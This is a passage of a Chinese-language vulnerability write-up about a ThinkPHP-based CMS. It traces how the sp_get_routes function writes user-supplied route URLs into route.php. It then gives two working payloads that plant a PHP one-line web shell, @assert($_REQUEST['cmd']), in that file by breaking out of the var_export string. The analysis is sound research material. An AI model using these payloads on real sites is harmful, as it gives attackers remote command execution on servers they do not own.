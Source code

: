 执行成功之后会返回到route/index中，就会执行sp_get_routes函数

接下来我们分析sp_get_routes函数中能成功写入route.php中的条件，首先`full_url`是原始网址，显示网址是`url`

```php
$full_url=htmlspecialchars_decode($er['full_url']);
			
		// 解析URL
		$info   =  parse_url($full_url);
			// 这里以/ 分割path
		$path       =   explode("/",$info['path']);
      // 如果path不等于3 ，就继续下一个循环
		if(count($path)!=3){//必须是完整 url
			continue;
		}
```
在if条件语句中，我们可以看到解析的full_url要3个，在这里写了一个代码，只要full_url 为 `a/b/c`就可以绕过if语句，执行下面的操作

![image.png](./ThinkPHP 3.2.3 SQLi.assets/2023_05_19_10_40_41_DRQPTBnK.png)



![image.png](./ThinkPHP 3.2.3 SQLi.assets/2023_05_19_10_40_41_yFDU4zZp.png)

走到后面可以看到如下代码，只要写入了$all_routes，也不需要`<>` 等，就可以转换成合法的`php`代码

```php
$url=$er['url'];
// $all_routes 为$full_url赋值	
$all_routes[$url]=$full_url;
file_put_contents($route_file, "<?php\treturn " . stripslashes(var_export($all_routes, true)) . ";");
```
那么在`$url` 里写一个一句话木马，就能将其写入到`$route_file`里了

![image.png](./ThinkPHP 3.2.3 SQLi.assets/2023_05_19_10_40_41_2OteJc6Y.png)



```php
// 1
full_url: a/b/c
url: aaa' @assert($_REQUEST['cmd']),'
// 2
full_url: a/b/c',@assert($_REQUEST['cmd']),'
url: aaa
```
![image.png](./ThinkPHP 3.2.3 SQLi.assets/2023_05_19_10_40_42_DHE4m2xg.png)

![image.png](./ThinkPHP 3.2.3 SQLi.assets/2023_05_19_10_40_42_07lwXLCH.png)

![image.png](./ThinkPHP 3.2.3 SQLi.assets/2023_05_19_10_40_42_XHYKrFv7.png)



## 参考链接
[https://blog.csdn.net/qsort_/article/details/109909796](https://blog.csdn.net/qsort_/article/details/109909796)

[https://www.freebuf.com/vuls/236421.html](https://www.freebuf.com/vuls/236421.html)





